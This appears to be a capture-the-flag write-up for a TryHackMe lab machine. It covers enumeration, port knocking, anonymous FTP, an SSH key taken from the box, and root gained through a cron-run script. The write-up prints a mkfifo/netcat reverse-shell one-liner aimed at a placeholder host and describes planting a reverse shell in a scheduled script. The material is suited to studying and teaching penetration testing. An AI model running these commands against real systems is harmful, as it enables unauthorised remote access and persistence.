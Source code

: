 # Cat Pictures THM Room

The first step to this room is proper enumeration. I used the good old tried and true `nmap -sV <MACHINE-IP>` once again to check open ports.

![Screenshot 2025-03-26 213108](https://github.com/user-attachments/assets/209342f8-07f3-4262-88f3-7f38f3d9c5a6)

port 21 is filtered, we'll get to that a little later. For now I checked out what was on port 8080 and it was a forum. I tried to find a version number or something
like that, I was thinking that an exploit was available due to an outdated version of the software phpBB. Upon further investigation though, there is a clue on the forum that was posted.
It reads, "Knock knock! Magic numbers: 1111, 2222, 3333, 4444." 

![Screenshot 2025-03-26 213600](https://github.com/user-attachments/assets/74c3cfcf-be13-4c4c-8188-469c72e2c84d)

This is a clue related to port knocking, previously something I didn't even know existed. Port knocking is esssentially a way to open a port through a series of specially crafted requests.
The author here gives us a clue, `1111, 2222, 3333, 4444`. I installed `knockd` onto my linux machine and got to work. Trying `knock <MACHINE-IP> 1111 2222 3333 4444` didn't
work, I had to try a few other combinations before I could get the FTP port open again. 

Once the FTP port was finally opened, I connected using `ftp <MACHINE-IP>`. I used the name anonymous and used ls to find what directories were available. I stumbled across note.txt
and used the get command to download it onto my host machine.

![Screenshot 2025-03-26 214205](https://github.com/user-attachments/assets/67cb69ac-72c1-49a5-9f30-c3f97ebe6107)

Reading the note I read that we should connect to port 4420, and that the password is sardinethecat. I used netcat to connect.

![Screenshot 2025-03-26 214642](https://github.com/user-attachments/assets/2517ab15-8f22-4bca-804b-3da5130353cb)

I then used `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <MACHINE-IP 4444 >/tmp/f` to create a reverse shell because the CD command didn't work. 

After getting a reverse shell into the system I looked around a bit and found an executable called runme. The only issue is, it was password protected. Luckily though, I was able to find the password by using cat to look at the file. 

![Screenshot 2025-03-26 221622](https://github.com/user-attachments/assets/078876b3-a898-43d0-8809-3576ae433a05)

After entering in the password, I ran ls again to find that id_rsa was now in my current directory. I read the file, then copied and pasted it into a new id_rsa file on my host linux system so I could ssh into the system. I ran `ssh catlover@<MACHINE-IP> -i id_rsa`. I also made sure to run `chmod 600 id_rsa` before running that command because ssh gets weird about permissions if you don't.

![Screenshot 2025-03-26 221836](https://github.com/user-attachments/assets/e091f557-ab36-4b95-8049-aeb0954ec2ee)

From this point I was able to find flag.txt in the root directory

To find the root flag I read the bash history and found that the shell cleans temporary files on the system. From here, I wanted to try to launch a shell onto clean.sh. I ran `nano /opt/clean/clean.sh` and added a reverse shell from pentestmonkey, because I knew this ran all the time, I only had to wait a little bit for the shell to launch, where I found root.txt.


![Screenshot 2025-03-26 223554](https://github.com/user-attachments/assets/34005d4f-89fd-46cc-a415-4e61c3566dc6)
